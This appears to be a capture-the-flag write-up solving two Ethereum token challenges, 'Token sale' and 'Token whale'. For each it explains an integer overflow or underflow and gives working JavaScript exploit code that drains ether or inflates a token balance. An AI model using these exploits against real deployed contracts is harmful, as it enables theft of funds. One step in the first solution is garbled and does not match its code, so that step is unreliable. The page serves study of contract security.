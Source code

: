 
## Math
### Token sale
The `buy()` function can cause an integer overflow and allows tokens to be bought for less than 1 ether.
1. Compute `numTokens` required to overflow `numTokens * PRICE_PER_TOKEN`.
    - 2<sup>256</sup> / 10<sup>18</sup> + 1
2. Compute the overflowed value.
    - (2<sup>256</sup> / 10<sup>18</sup> + 1) x 10<sup>18</sup> - 2<sup>256</sup>
3. Call `buy()` function with `numTokens` as 1. and `msg.value` as 2.
4. The attacker will have 115792089237316195423570985008687907853269984665640564039458 tokens.
5. Sell 1415992086870360064 tokens to retrieve all ethers in `TokenSaleChallenge` contract.

```
<!-- Javascript -->
numTokens = ethers.constants.MaxUint256.div(ethers.utils.parseEther('1')).add(1);
msgValue = numTokens.mul(ethers.utils.parseEther('1')).sub(ethers.constants.MaxUint256.add(1));
tx = await challenge.buy(numTokens, {value: msgValue});
await tx.wait();
numTokens = (await ethers.provider.getBalance(challenge.address)).div(ethers.utils.parseEther('1'));
tx = await challenge.sell(numTokens);
await tx.wait();
```
#### Reference
- <https://github.com/sigp/solidity-security-blog#ouflow>{:target="_blank"}

### Token whale
The `balanceOf` is susceptible to an integer underflow in the `_transfer()` function. A challenger with the help of an accomplice can approve tokens and then call `transferFrom()` function to cause token balance of the approved user to underflow.
1. Transfer 1000 tokens from challenger account (challenger1) to another challenger controlled account (challenger2).
2. Call `approve()` function from challenger2 and approve 1 token for challenger1 to transfer.
3. Challenger1 calls `transferFrom()` function to transfer 1 token from challenger2 to any random address other than challenger1.
4. Challenger1 now has 2<sup>256</sup> - 1 tokens.

```
<!-- Javascript -->
[attacker1, attacker2] = await ethers.getSigners();
tx = await challenge.transfer(attacker2.address, 1000);
await tx.wait();
tx = await challenge.connect(attacker2).approve(attacker1.address, 1);
await tx.wait();
tx = await challenge.transferFrom(attacker2.address, ethers.constants.AddressZero, 1);
await tx.wait();
```
#### Reference
- <https://github.com/sigp/solidity-security-blog#ouflow>{:target="_blank"}
